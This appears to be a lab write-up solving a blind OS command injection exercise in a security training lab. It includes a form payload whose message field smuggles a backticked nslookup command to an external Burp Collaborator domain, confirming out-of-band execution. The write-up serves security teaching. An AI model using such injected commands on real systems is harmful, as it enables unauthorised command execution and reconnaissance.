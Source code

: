 # Lab: Blind OS command injection with out-of-band interaction
## Task
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## Solution
On Burp Suite Pro, run a Burp Collaborator client and copy the domain.  

![image](https://user-images.githubusercontent.com/44528004/130431194-b21040cc-8c91-4c79-b4b1-51e0f03d05c3.png)

Next, add this domain to the payload to create an out-of-band interaction.  
```
name=hacker&email=hacker%40hacker.com&subject=hack&message=hack`nslookup rje8b1i3h26hmw1bml2l62lh389yxn.burpcollaborator.net`
```  

Comeback to the Burp Collaborator client, click **Poll now** and see that there are some coming dns queries.  

![image](https://user-images.githubusercontent.com/44528004/130431793-cc7818ab-fa1f-48cc-8b31-70440a1aeaf8.png)

That's also what this lab wants us to do.  

![image](https://user-images.githubusercontent.com/44528004/130431414-8309e4cc-b3ce-4d67-8b6f-91b319aa7b5f.png)
> Solved!
